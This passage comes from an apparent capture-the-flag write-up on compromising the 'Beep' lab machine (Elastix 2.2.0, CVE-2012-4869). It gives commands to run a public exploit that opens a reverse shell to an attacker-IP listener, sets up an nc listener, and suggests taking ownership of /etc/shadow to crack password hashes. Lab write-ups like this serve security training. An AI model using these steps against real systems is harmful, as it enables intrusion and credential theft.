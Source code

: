 We can look for a POC or try this out ourselves. I found a fairly recent POC from GitHub, [Elastix 2.2.0 CVE-2021-4869](https://github.com/cyberdesu/Elastix-2.2.0-CVE-2012-4869). 
```
git clone https://github.com/cyberdesu/Elastix-2.2.0-CVE-2012-4869
cd Elastix-2.2.0-CVE-2012-4869
python -m venv .venv
source .venv/bin/activate
pip install .
python exploit.py "<Target-IP>" --LHOST "<Attacker-IP>" --LPORT 9001
```
And on another we setup an `nc` listener on port 9001. rlwrap is optional.
```
rlwrap nc -lvnp 9001
```
On launching the script we get an SSL error. We can fix this by adding `context.set_ciphers('HIGH:!DH:!aNULL')` to the function near the top where `context` is declared. Now we're able to access a shell on the server. I use port 1234 below.

<br>
<img src="/images/beep-foothold.png" width="900" alt="foothold preview" />
<br>
<br>

When we go to one of the home directories, we find `user.txt` and use `cat` to print it out.

## Privilege Escalation

There are multiple approaches to get to root. On using `sudo -l`, I found some useful commands available to us. `chmod` and `chown` are particularly useful. We can use either to take ownership of the /etc/shadow file and crack the hash from there. But, let's look at the /root directory.

<br>
<img src="/images/beep-root.png" width="900" alt="root preview" />
<br>
<br>
